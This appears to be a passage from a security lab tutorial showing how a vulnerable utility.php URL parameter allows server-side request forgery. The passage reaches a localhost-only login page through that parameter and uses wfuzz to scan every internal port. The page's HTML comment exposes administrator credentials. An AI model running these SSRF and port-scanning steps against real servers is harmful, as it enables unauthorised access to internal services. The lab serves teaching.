 ```html
</head>  
<body>  
    <center> <h1> Student Login Form (PRE) </h1> </center> 
    <form>
        <div class="container"> 
	        <label>// * Test with administrator/adm1n$13_2023 credentials (Same as PRO)</label> <br><br>
            <label>Username : </label> 
            <input type="text" placeholder="Enter Username" name="username" required>
            <label>Password : </label> 
            <input type="password" placeholder="Enter Password" name="password" required>
            <button type="submit">Login</button> 
            <input type="checkbox" checked="checked"> Remember me 
            <button type="button" class="cancelbtn"> Cancel</button> 
            Forgot <a href="#"> password? </a> 
        </div> 
    </form>   
</body>   
</html>
```

We are going to network share the */tmp* directory with a **Python** server:

```
python3 -m http.server 4646
```

In this case, if we access the *172.17.0.2:4646/login.html* URL we can access the *PRE* web site. In this example we want that we can only access it from the same PRO machine and it is not visible in the network. For this we are going to make the resource only accessible on localhost with **Python**:

```
python3 -m http.server 4646 --bind 127.0.0.1
```

Thus, even if we call the *172.17.0.2:4646/login.html*  URL, we will not be able to view the web page outside the *PRO* machine.

In order to see this resource, we have to take into account that with the script we created previously, *utility.php*, we can search and display a domain in the browser, including the domain of our local machine:

```
http://172.17.0.2/utility.php?url=http://127.0.0.1
```

As we are inside the *PRO* machine, from here we can see the *PRE* web page specifying its port:

```
http://172.17.0.2/utility.php?url=http://127.0.0.1:4646/login.html
```

To find out the port on which the *PRE* website is located, we must apply fuzzing with **wfuzz**:

```bash
# We set a payload of type range to traverse all ports
wfuzz -c -t 200 -z range,1-65535 "http://172.17.0.2/utility.php?url=http://127.0.0.1:FUZZ"
```
